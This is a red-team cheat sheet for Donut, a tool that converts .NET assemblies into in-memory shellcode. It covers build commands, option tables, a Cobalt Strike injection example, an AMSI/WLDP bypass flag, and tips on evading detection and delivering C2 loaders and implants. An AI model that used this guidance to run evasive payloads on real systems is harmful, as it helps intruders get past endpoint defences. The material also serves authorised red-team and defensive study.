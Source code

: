 # Donut Cheat Sheet (In-Memory .NET Payloads for Red Teamers)

[Donut](https://github.com/TheWover/donut) is a payload generation tool that converts .NET assemblies into position-independent shellcode, enabling **in-memory execution** with no disk artifacts.

---

## 💾 Installation

```bash
git clone https://github.com/TheWover/donut.git
cd donut
mkdir build && cd build
cmake ..
make
```

---

## 🧠 Basic Usage

```bash
./donut ../payload/MyPayload.dll
```

- Generates shellcode: `loader.bin`
- Can be injected into memory via C, C#, PowerShell, etc.

---

## ⚙️ Common Options

| Option        | Description                         |
|---------------|-------------------------------------|
| `-f`          | Output format (default: BIN)        |
| `-a`          | Architecture (1=x86, 2=amd64, 3=any) |
| `-o`          | Output filename                     |
| `-b`          | Bypass AMSI/WLDP (1=enabled)        |
| `-x`          | Entry point in assembly             |
| `-c`          | Arguments to pass to entry method   |

---

## 🔧 Example: Cobalt Strike Compatible Shellcode

```bash
./donut -f 1 -a 2 -o shellcode.bin MyTool.dll
```

Use in CS:
```
beacon> inject shellcode.bin
```

---

## 🔐 AMSI/WLDP Bypass

Donut supports optional AMSI and WLDP bypassing:

```bash
./donut -b 1 MyPayload.dll
```

---

## 🧪 Pass Arguments to Assembly

```bash
./donut -c "username=admin password=supersecret" MyPayload.dll
```

---

## 📦 Output Formats

| Format | Description     |
|--------|-----------------|
| 1      | Binary (raw)    |
| 2      | Base64          |
| 3      | C               |
| 4      | Ruby            |
| 5      | Python          |
| 6      | PowerShell      |
| 7      | C#              |
| 8      | Hexadecimal     |

Example:
```bash
./donut -f 6 MyPayload.dll
```

---

## 🛠 Tool Wrappers

- **Inject with Rubeus**, `sharpinject`, or custom C loader
- Can be embedded in shellcode runners
- Excellent for **OPSEC-safe in-memory execution**

---

## 🧯 Tips

- Avoid hardcoded strings in your .NET payload — encrypt them
- Always compile .NET in **Release x64**, no debug info
- Pair with **Cobalt Strike**, **BOFs**, or **Sliver**
- Use Donut to deliver **C2 loaders**, **enumeration tools**, or **internal implants**

---


